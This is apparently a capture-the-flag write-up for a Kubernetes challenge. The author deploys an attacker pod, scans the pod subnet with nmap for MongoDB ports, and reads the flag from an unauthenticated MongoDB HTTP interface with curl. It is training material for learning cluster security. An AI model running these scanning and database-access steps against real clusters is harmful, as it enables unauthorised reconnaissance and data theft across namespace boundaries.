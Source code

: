 ## Challenge 23 Namespace Bypasss

There is a hidden namespace which has a running mongodb instance. The goal is to find the instance and find the flag.

1.  Install an attacker container

```json
kubectl apply -f challenge23/pentest_tools.yaml
```

2.  Log into the attacker container

```json
kubectl get pods
```

![[Pasted image 20220309225609.png]]

```json
kubectl exec -it challenge23-attacker-8bd985cb5-lk6dt -- bash
```

3.  once in the container, get its ip. I recently learned that the [100.64.0.0/10 space](https://en.wikipedia.org/wiki/IPv4_shared_address_space) is reserved (!!)

```json
ifconfig
```

![[Pasted image 20220309225621.png]]

4.  Lets trigger an nmap scan. We know from a previous challenge mongodb is the db of choice, lets look up its ports to find where mongo is.

```json
nmap --open -p27017,28017 100.96.1.24/24
```

5.  We see a host that has these open. What is port 28017??

```json
root@challenge23-attacker-8bd985cb5-lk6dt:/app# curl http://100.96.1.75:28017/listDatabases

```

```json
root@challenge23-attacker-8bd985cb5-lk6dt:/app# curl <http://100.96.1.75:28017/listDatabases>
{ "databases" : [ { "name" : "k8ctf", "sizeOnDisk" : 32768, "empty" : false }, { "name" : "local", "sizeOnDisk" : 65536, "empty" : false } ], "totalSize" : 98304, "ok" : 1 }
```

```json
root@challenge23-attacker-8bd985cb5-lk6dt:/app# curl http://100.96.1.75:28017/k8ctf/flag/

```

```json
root@challenge23-attacker-8bd985cb5-lk6dt:/app# curl http://100.96.1.75:28017/k8ctf/flag/
{
  "offset" : 0,
  "rows": [
    { "_id" : { "$oid" : "609436d401aa2523a69b0e73" }, "name" : "k8_ctf{FouNdY0Ur4dminN4mESpAcE}" }
  ],

  "total_rows" : 1 ,
  "query" : {} ,
  "millis" : 0
}
```

Exit

```json
exit
```

So where is this mongo running?

```json
kubectl get pods
kubectl get namespaces
kubectl get pods --all-namespaces
```

```
NAMESPACE              NAME                                                    READY   
admin                  challenge23-65497d5f55-z2sml                            1/1    
default                challenge23-attacker-56dd74986d-82ncz                   1/1     
```

![[Pasted image 20220309225646.png]]

> 🏁 Challenge 23 Flag - `k8_ctf{FouNdY0Ur4dminN4mESpAcE}`



Don't delete the pentest tools deploy